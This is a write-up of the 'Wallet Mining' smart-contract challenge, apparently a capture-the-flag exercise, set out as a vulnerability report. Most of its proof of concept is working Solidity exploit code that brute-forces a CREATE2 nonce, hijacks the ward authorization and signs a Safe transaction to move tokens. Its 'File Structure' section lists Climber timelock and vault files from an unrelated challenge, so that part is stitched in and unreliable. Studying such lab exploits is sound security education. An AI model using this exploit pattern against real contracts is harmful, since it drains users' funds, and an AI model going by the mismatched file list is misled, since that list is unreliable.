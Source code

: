 # Wallet Mining

## Challenge Overview
There's a contract that incentivizes users to deploy Safe wallets, rewarding them with 1 DVT. It integrates with an upgradeable authorization mechanism, only allowing certain deployers (a.k.a. wards) to be paid for specific deployments.

The deployer contract only works with a Safe factory and copy set during deployment. It looks like the [Safe singleton factory](https://github.com/safe-global/safe-singleton-factory) is already deployed.

The team transferred 20 million DVT tokens to a user at `0xCe07CF30B540Bb84ceC5dA5547e1cb4722F9E496`, where her plain 1-of-1 Safe was supposed to land. But they lost the nonce they should use for deployment.

## Vulnerability Report

### Severity
High - Allows unauthorized access to funds and reward tokens

### Vulnerability Type
- Authorization Bypass
- Unsafe Contract Deployment
- Reward System Exploitation

### Root Cause
1. **Authorization Mechanism Flaw**:
   - The system allows any address to be authorized as a ward for a specific target address
   - No validation of the deployed contract's code or functionality
   - The `drop` function only checks if the deployed address matches the target

2. **Safe Transaction Signing**:
   The system uses EIP-712 for transaction signing with two critical type hashes:
   ```bash
   # Domain Separator Type Hash
   cast keccak "EIP712Domain(uint256 chainId,address verifyingContract)"
   # Output: 0x47e79534a245952e8b16893a336b85a3d9ea9fa8c573f3d803afb92a79469218

   # Safe Transaction Type Hash
   cast keccak "SafeTx(address to,uint256 value,bytes data,uint8 operation,uint256 safeTxGas,uint256 baseGas,uint256 gasPrice,address gasToken,address refundReceiver,uint256 nonce)"
   # Output: 0xbb8310d486368db6bd6f849402fdd73ad53d316b5a4b2644ad6efe0f941286d8
   ```

### Proof of Concept

#### Exploit Contract
```solidity
contract Exploit {
    constructor (
        DamnValuableToken token,
        AuthorizerUpgradeable authorizer,
        WalletDeployer walletDeployer,
        address safe,
        address ward,
        bytes memory initializer,
        uint256 saltNonce,
        bytes memory txData
    ) {
        // Set up authorization
        address[] memory wards = new address[](1);
        address[] memory aims = new address[](1);
        wards[0] = address(this);
        aims[0] = safe;

        // Execute exploit sequence
        authorizer.init(wards, aims);
        walletDeployer.drop(address(safe), initializer, saltNonce);
        token.transfer(ward, token.balanceOf(address(this)));
    }
}
```

#### Attack Steps
1. **Find Correct Nonce**:
```solidity
function findCorrectNonce() private view returns (uint256 nonce, bytes memory initializer) {
    address[] memory owner = new address[](1);
    owner[0] = user;
    initializer = abi.encodeCall(Safe.setup, (owner, 1, address(0), "",
                                    address(0), address(0), 0, payable(0)));
    
    while(true) {
        address target = vm.computeCreate2Address(
            keccak256(abi.encodePacked(keccak256(initializer), nonce)),
            keccak256(abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy))))),
            address(proxyFactory)
        );
        if (target == USER_DEPOSIT_ADDRESS) {
            break;
        }
        nonce++;
    }
    return (nonce, initializer);
}
```

2. **Prepare Transaction Data**:
```solidity
function prepareExecTransactionData() private view returns (bytes memory) {
    bytes memory data = abi.encodeWithSelector(token.transfer.selector, user, DEPOSIT_TOKEN_AMOUNT);
    
    // Calculate Safe transaction hash
    bytes32 safeTxHash = keccak256(
        abi.encode(
            0xbb8310d486368db6bd6f849402fdd73ad53d316b5a4b2644ad6efe0f941286d8,
            address(token),
            0,
            keccak256(data),
            Enum.Operation.Call,
            100000,
            100000,
            0,
            address(0),
            address(0),
            0
        )
    );

    // Calculate domain separator
    bytes32 domainSeparator = keccak256(abi.encode(
        0x47e79534a245952e8b16893a336b85a3d9ea9fa8c573f3d803afb92a79469218,
        singletonCopy.getChainId(),
        USER_DEPOSIT_ADDRESS
    ));

    // Sign and return execution data
    bytes32 txHash = keccak256(abi.encodePacked(bytes1(0x19), bytes1(0x01), domainSeparator, safeTxHash));
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, txHash);
    bytes memory signatures = abi.encodePacked(r, s, v);
    
    return abi.encodeWithSelector(
        singletonCopy.execTransaction.selector, 
        address(token), 
        0, 
        data, 
        Enum.Operation.Call, 
        100000, 
        100000, 
        0, 
        address(0), 
        address(0), 
        signatures
    );
}
```

3. **Execute Attack**:
```solidity
function test_walletMining() public checkSolvedByPlayer {
    (uint256 nonce, bytes memory initializer) = findCorrectNonce();
    bytes memory execData = prepareExecTransactionData();
    new Exploit(token, authorizer, walletDeployer, USER_DEPOSIT_ADDRESS, ward, initializer, nonce, execData);
}
```

### Impact
1. Unauthorized access to reward tokens
2. Ability to deploy malicious contracts at target addresses
3. Potential fund drainage from the system
4. Compromise of the Safe wallet deployment mechanism

### Recommendations
1. Implement strict validation of deployed contracts
2. Add checks to verify the deployed contract is a valid Safe wallet
3. Restrict authorization to trusted addresses only
4. Add additional security measures in the `drop` function
5. Implement proper access controls for the authorization mechanism

### Prevention
1. Use a whitelist for authorized deployers
2. Verify contract code before deployment
3. Implement proper access controls
4. Add validation checks in the deployment process
5. Use a more secure authorization mechanism

## File Structure
- `WalletDeployer.sol`: Main contract that handles wallet deployment and rewards
- `AuthorizerUpgradeable.sol`: Upgradeable contract for managing deployment authorizations
- `ClimberConstants.sol`: Contains constant values used in the contracts
- `ClimberErrors.sol`: Custom error definitions
- `ClimberTimelock.sol`: Timelock contract for managing operations
- `ClimberVault.sol`: Vault contract for storing tokens

## Challenge Goal
You must save all funds before it's too late! Recover all tokens from the wallet deployer contract and send them to the corresponding ward. Also save and return all user's funds. In a single transaction.

